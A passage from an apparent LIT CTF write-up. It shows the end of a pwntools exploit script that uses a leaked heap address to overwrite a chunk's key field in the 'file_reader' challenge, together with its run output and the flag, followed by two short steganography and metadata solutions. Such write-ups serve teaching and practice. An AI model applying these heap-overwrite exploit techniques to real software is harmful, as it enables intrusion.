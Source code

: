```python
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --
io = start()
d = int(io.recvline()[:-1], 16)
c = d - 0x50                    # Address of chunk c
log.success(f"d: {hex(d)}")
log.success(f"c: {hex(c)}")

io.sendline(str(c+8).encode())  # Overwrite the key-field, which is +8 from c and -0x48 from d
io.sendline(b"A")               # Could be almost anything
io.interactive()
```
{: file="exploit.py" }

```console
loevland@hp-envy:~/ctf/lit-ctf/pwn/file_reader/filereader$ python3 exploit.py
[+] Opening connection to litctf.org on port 31772: Done
[+] d: 0x5603db5ff2f0
[+] c: 0x5603db5ff2a0
[*] Switching to interactive mode
Exiting...
LITCTF{very_legitimate_exit_function}
```


# Misc
## kevin
![Challenge](kevin_chall.png)

The website contains an image, and the challenge-description hints at steganography, so then its just to upload the image to [aperisolve.com](https://www.aperisolve.com/) and let it find the flag. The flag is found with Zsteg.

![Zsteg](kevin_zsteg.png)


## amogus
![Challenge](amogus_chall.png)

Another website with an image. Downloading the image and running the `file` command on it reveals the flag
```console
loevland@hp-envy:~/ctf/lit-ctf/misc/amogus$ file testing.jpg
testing.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, Exif Standard: [TIFF image data, big-endian, direntries=3, manufacturer=s0m3t1m3s_th1ngs_4re_n0t_4lw4ys_wh4t_th3y_s33m, resolutionunit=1], progressive, precision 8, 2560x1440, components 3
```
